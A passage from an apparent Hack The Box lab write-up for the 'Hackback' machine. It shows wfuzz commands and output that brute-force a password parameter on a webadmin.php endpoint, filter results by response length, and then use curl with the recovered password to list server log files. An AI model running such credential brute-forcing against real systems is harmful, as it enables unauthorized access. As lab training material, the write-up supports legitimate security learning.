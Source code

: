    ```bash
   000004:  C=302      0 L	       3 W	     17 Ch	  "computer"
   000005:  C=302      0 L	       3 W	     17 Ch	  "123456"
   000006:  C=302      0 L	       3 W	     17 Ch	  "tigger"
   000010:  C=302      0 L	       3 W	     17 Ch	  "123"
   000011:  C=302      0 L	       3 W	     17 Ch	  "xxx"
   <HIT Ctrl-C>
   ```
   
   Looks like most are coming back with a 17 character response, so let's ignore anything with exactly 17 characters and see what's left:
   
   ```bash
   $ wfuzz -w /usr/share/commix/src/txt/passwords_john.txt \
           -u 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=foo' \
           --hh 17
   
   ********************************************************
   * Wfuzz 2.3.4 - The Web Fuzzer                         *
   ********************************************************

   Target: http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=FUZZ&session=e3
   Total requests: 3108

   ==================================================================
   ID   Response   Lines      Word         Chars          Payload    
   ==================================================================

   000020:  C=302      0 L	       0 W	      0 Ch	  ""
   000054:  C=302      6 L	      12 W	    117 Ch	  "12345678"
   003108:  C=302      0 L	       0 W	      0 Ch	  ""

   Total time: 63.88652
   Processed Requests: 3108
   Filtered Requests: 3105
   Requests/sec.: 48.64875
   ```
   
   We get 2 responses with 0 chars for a null payload, but get a much larger response for `12345678`. Let's try to curl the endpoint with URL params and use `12345678` as the password:
   
   ```bash
   $ curl 'http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/webadmin.php?action=list&site=hackthebox&password=12345678&session=fooo'
   Array
   (
       [0] => .
       [1] => ..
       [2] => e691d0d9c19785cf4c5ab50375c10d83130f175f7f89ebd1899eee6a7aab0dd7.log
   )
   ```
   
   Success!! :)
   